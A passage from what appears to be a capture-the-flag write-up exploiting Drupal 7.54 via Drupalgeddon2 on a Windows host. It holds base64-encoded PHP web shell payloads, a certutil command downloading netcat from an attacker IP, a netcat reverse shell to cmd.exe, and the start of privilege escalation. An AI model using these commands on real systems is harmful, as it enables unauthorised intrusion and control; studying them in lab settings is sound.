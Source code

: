 ```terminal
[i] Response: HTTP 404 // Size: 12                                                                                                                            
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -  
[*] Testing: Writing To Web Root   (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.p
hp
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -  
[*] Testing: Writing To Web Root   (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRV
UVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php 
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
[!] FAILED : Couldn't find a writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands
drupalgeddon2>> whoami
nt authority\iusr
```

It tried and failed multiple time but we got command execution at the end as `nt authority\iusr`

### Reverse shell

To get a reverse shell we upload a copy of netcat to the target using the following command

```bash
certutil -urlcache -f http://10.10.17.90/nc.exe nc.exe
```

Now we setup a listener and use netcat to connect to it and execute cmd.exe

```bash
nc.exe 10.10.10.10 9001 -e cmd.exe
```

![](3.png)

## **Privilege Escalation**

### Method 1: SeImpersonatePrivilege

Let's check our privileges

```terminal
C:\inetpub\drupal-7.54>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled

```
